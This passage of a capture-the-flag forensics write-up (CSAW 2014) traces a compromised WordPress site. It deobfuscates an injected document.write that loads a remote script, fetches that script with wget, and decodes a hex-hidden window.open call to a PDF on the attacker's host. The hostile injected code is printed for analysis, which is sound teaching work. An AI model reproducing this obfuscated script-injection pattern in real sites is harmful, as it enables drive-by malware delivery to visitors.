 ```sh
<     f += c[i];
< }
< i = k + "anal";
< document.write("<" + m + " " + b + "=" + x + "tp:" + k + k + f + i + "y" + g + "c" + u + v + "j" + u + "\'>\</" + m + "\>");

```
Aha!!! So what is being written?

In JavaScript, the function ```document.write()``` writes HTML expressions or JavaScript code to a document. However, we can debug it in the console if we want, changing it to ```console.log()``` (and changing any ```document``` word to ```console```).

To run JavaScript in the console, you need to install [Node].

So we run and we get a URL:


```sh
$ node html5.js
<script src='http://128.238.66.100/analytics.js'></script>
```
----

## Analyzing the Second JavaScript Exploit

Awesome, we see a script exploit! Let's get it!

```sh
$  wget http://128.238.66.100/analytics.js
--2014-09-25 19:17:19--  http://128.238.66.100/analytics.js
Connecting to 128.238.66.100:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16072 (16K) [application/javascript]
Saving to: ‘analytics.js’

100%[===============================================================================>] 16,072      --.-K/s   in 0.008s

2014-09-25 19:17:19 (2.02 MB/s) - ‘analytics.js’ saved [16072/16072]
```


The file turns out to be large, and *grep* *flag* or *key* doesn't show any hit. No IP addresses or URL neither.

OK, let's take a closer look. We open the file in a text editor and we find a weird hex-encoded variable that is completely unconnected from the rest:
```
var _0x91fe = ["\x68\x74\x74\x70\x3A\x2F\x2F\x31\x32\x38\x2E\x32\x33\x38\x2E\x36\x36\x2E\x31\x30\x30\x2F\x61\x6E\x6E\x6F\x75\x6E\x63\x65\x6D\x65\x6E\x74\x2E\x70\x64\x66", "\x5F\x73\x65\x6C\x66", "\x6F\x70\x65\x6E"];
window[_0x91fe[2]](_0x91fe[0], _0x91fe[1]);
```

We decode it using Python or a [online hex-decode] and we get another file:
```python
>>> print("\x68\x74\x74\x70\x3A\x2F\x2F\x31\x32\x38\x2E\x32\x33\x38\x2E\x36\x36\x2E\x31\x30\x30\x2F\x61\x6E\x6E\x6F\x75\x6E\x63\x65\x6D\x65\x6E\x74\x2E\x70\x64\x66", "\x5F\x73\x65\x6C\x66", "\x6F\x70\x65\x6E")
('http://128.238.66.100/announcement.pdf', '_self', 'open')
```


[CSAW CTF 2014 Forensic -Obscurity]: http://singularity-sh.vercel.app/forensics-200-obscurity.html
[online hex-decode]: http://ddecode.com/hexdecoder/
[which we can just google]: http://phpxref.ftwr.co.uk/wordpress/wp-content/themes/twentythirteen/js/html5.js.source.html
[Tailing]: http://en.wikipedia.org/wiki/Tail_(Unix)
[phpMyAdmin]: http://www.phpmyadmin.net/home_page/index.php
[qpdf]: http://qpdf.sourceforge.net/
[l3afpad]: http://tarot.freeshell.org/leafpad/
[diff]: http://linux.die.net/man/1/diff
[MySQL database dump file]: http://dev.mysql.com/doc/refman/5.1/en/mysqldump.html
[Linux File System]: http://www.tldp.org/LDP/intro-linux/html/sect_03_01.html
[LAMP server]: https://coderwall.com/p/syyk0g?i=5&p=1&q=author%3Abt3gl&t%5B%5D=bt3gl
[CSAW2014-FluffyNoMore-v0.1.tar.bz2]: https://ctf.isis.poly.edu/static/uploads/649bdf6804782af35cb9086512ca5e0d/CSAW2014-FluffyNoMore-v0.1.tar.bz2
[bzip2]: http://en.wikipedia.org/wiki/Bzip2
[cute website]: http://ww17.blog.eyeheartfluffybunnies.com/?fp=Tnxj5vWdcChO2G66EhCHHqSAdskqgQmZEbVQIh1DCmrgCyQjbeNsPhkvCpIUcP19mwOmcCS1hIeFb9Aj3%2FP4fw%3D%3D&prvtof=RyfmkPY5YuWnUulUghSjPRX510XSb9C0HJ2xsUn%2Fd3Q%3D&poru=jcHIwHNMXYtWvhsucEK%2BtSMzUepfq46Tam%2BwGZBSFMjZiV2p3eqdw8zpPiLr76ixCoirz%2FR955vowRxEMBO%2FoQ%3D%3D&cifr=1&%22
[blog]: http://ww17.blog.eyeheartfluffybunnies.com
[hashcat]: http://hashcat.net/hashcat/
[file]: http://en.wikipedia.org/wiki/File_(command)
[Kali]: http://www.kali.org/
[Node]: http://nodejs.org/